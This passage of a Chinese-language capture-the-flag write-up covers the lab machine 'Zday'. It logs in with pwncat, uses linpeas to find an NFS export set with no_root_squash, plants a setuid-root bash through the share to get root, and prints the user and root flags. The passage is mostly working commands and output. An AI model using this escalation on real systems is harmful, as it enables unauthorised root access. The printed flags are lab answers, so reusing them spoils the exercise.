echo -e "You seem to be using the'fogproject'system account to logon and work \non your FOG server system.\n\nIt's NOT recommended to use this account! Please create a new \naccount for administrative tasks.\n\nIf you re-run the installer it would reset the 'fog' account \npassword and therefore lock you out of the system!\n\nTake care, \nyour FOGproject team"
exit 1
$ vi /home/fogproject/.bashrc
```

然后继续使用 `/bin/bash` 进行登录

```shell
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs fogproject@192.168.56.130
[23:34:25] Welcome to pwncat 🐈!
Password: ********************
[23:34:33] 192.168.56.130:22: normalizing shell path
           192.168.56.130:22: registered new host w/ db
(local) pwncat$ back
(remote) fogproject@zday:/home/fogproject$ whoami
fogproject
```

## NFS 权限缺陷

上传 `linpeas.sh` 进行自动化分析

```shell
╔══════════╣ Analyzing NFS Exports Files (limit 70)
-e Connected NFS Mounts:
nfsd /proc/fs/nfsd nfsd rw,relatime 0 0
-rw-r--r-- 1 root root 174 Mar 10  2021 /etc/exports
/images *(ro,sync,no_wdelay,no_subtree_check,insecure_locks,no_root_squash,insecure,fsid=0)
/images/dev *(rw,async,no_wdelay,no_subtree_check,no_root_squash,insecure,fsid=1)
```

尝试加以利用

```shell
# Machine
(remote) fogproject@zday:/home/fogproject$ cp /bin/bash /images/dev/
(remote) fogproject@zday:/home/fogproject$ ls -lh /images/dev/
total 1.2M
-rwxr-xr-x 1 fogproject fogproject 1.2M Apr  9 11:50 bash
drwxrwxrwx 2 fogproject root       4.0K Mar 10  2021 postinitscripts

# Kali
┌──(randark ㉿ kali)-[~]
└─$ sudo chmod 4755 /mnt/HMV-Zday-images-dev/bash

┌──(randark ㉿ kali)-[~]
└─$ sudo chown root:root /mnt/HMV-Zday-images-dev/bash

┌──(randark ㉿ kali)-[~]
└─$ ls -lh /mnt/HMV-Zday-images-dev
总计 1.2M
-rwxr-xr-x 1 root root 1.2M  4 月 9 日 23:50 bash
drwxrwxrwx 2 1001 root 4.0K 2021 年 3 月 10 日 postinitscripts
```

即可获得 root 权限

```shell
(remote) fogproject@zday:/home/fogproject$ /images/dev/bash -p
(remote) root@zday:/home/fogproject# whoami
root
```

## FLAG - USER

```flag title="/home/estas/user.txt"
whereihavebeen
```

## FLAG - ROOT

```flag title="/root/root.txt"
ihavebeenherealways
```
